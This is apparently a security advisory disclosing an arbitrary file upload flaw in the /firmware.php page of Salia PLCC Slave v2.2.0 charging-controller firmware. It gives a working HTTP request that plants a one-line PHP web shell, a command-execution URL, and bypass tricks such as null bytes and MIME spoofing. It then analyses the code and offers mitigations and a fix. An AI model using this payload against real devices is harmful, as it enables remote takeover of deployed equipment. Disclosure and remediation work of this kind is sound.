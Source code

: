 # Salia PLCC Slave v2.2.0 has a Arbitrary File Upload Vulnerability

### Description

Salia PLCC Slave v2.2.0 has a Arbitrary File Upload vulnerability in the file /firmware.php ,anyone can upload a file to getshell ,which can lead to **Arbitrary Remote Command Execution**

### Vender

- The latest fireware v2.2.0 download link

  http://salia.echarge.de/firmware/

  http://salia.echarge.de/firmware/firmware_2.2.0.image

![image-20250528104625114](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505281046263.png)

### Step

- open the web-ui

![image-20250528103316575](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505281033726.png)

- the fireware upload area can upload any file.

![image-20250528103409980](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505281034107.png)

### POC

```http
POST /firmware.php HTTP/1.1
Host: XXXX
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="media"; filename="malicious.php"
Content-Type: application/octet-stream

<?php @system($_GET["cmd"]);?>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```



Then 

```
http://target.com/uploads/malicious.php?cmd=id
```



![image-20250528104057608](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505281040740.png)



### Analysis

#### Vulnerability Analysis: Arbitrary File Upload in PHP

The vulnerable code in this file is located in the file upload handling section, specifically:

`/firmware.php`

```php
if($_SERVER['REQUEST_METHOD']=='POST'){
    $uploadManager=new \UploadManager\Upload('media');
    $chunks=$uploadManager->upload('uploads');
    if(!empty($chunks)){
        foreach($chunks as $chunk){
            $fw_install = True;
            $update_ready = True;
            $update_filename = $chunk->getNameWithExtension();
        }
    }
}
```



1. **Vulnerability Description**
    The code lacks proper file validation, allowing attackers to upload malicious files (e.g., `.php` scripts) due to:
   - **No file extension/MIME validation** (): The `UploadManager` class processes files without checking extensions or MIME types (e.g., `image/jpeg` vs. `application/x-php`).
   - **No content verification** (): Files like `malicious.php` disguised as `image.jpg` bypass checks by embedding PHP code (e.g., `<?php system($_GET["cmd"]); ?>`).
   - **Unrestricted storage** (): Uploaded files are saved in `/uploads/` without disabling script execution (e.g., missing `.htaccess` rules like `php_flag engine off`).
2. **Proof of Concept (PoC)**
    Attackers exploit this by:
   - **Fake extensions**: Uploading `shell.php.jpg` or using null bytes (`shell.php%00.jpg`) ().
   - **MIME spoofing**: Setting `Content-Type: image/jpeg` for a PHP file ().
   - **Direct execution**: Accessing `http://target.com/uploads/malicious.php?cmd=id` to execute commands ().
3. **Impact**
   - **Remote Code Execution (RCE)**: Full server compromise ().
   - **Data breaches**: Access to sensitive files (e.g., `/etc/passwd`) ().
   - **Persistence**: Uploaded backdoors enable long-term access ().
4. **Mitigation**
   - **Whitelist validation**: Allow only `.bin`, `.zip` for firmware ().
   - **Content checks**: Use `getimagesize()` or file signatures ().
   - **Secure storage**: Store files outside webroot or disable execution ().
   - **Randomize filenames**: Use `uniqid()` to prevent path prediction ().

### Code-Level Fix Example

```php
// Secure file upload snippet
$allowed_ext = ['bin', 'zip'];
$file_ext = strtolower(pathinfo($_FILES['media']['name'], PATHINFO_EXTENSION));
if (!in_array($file_ext, $allowed_ext)) {
    die("Invalid file type.");
}
$new_filename = uniqid() . '.' . $file_ext;
move_uploaded_file($_FILES['media']['tmp_name'], '/secure/storage/' . $new_filename);
```

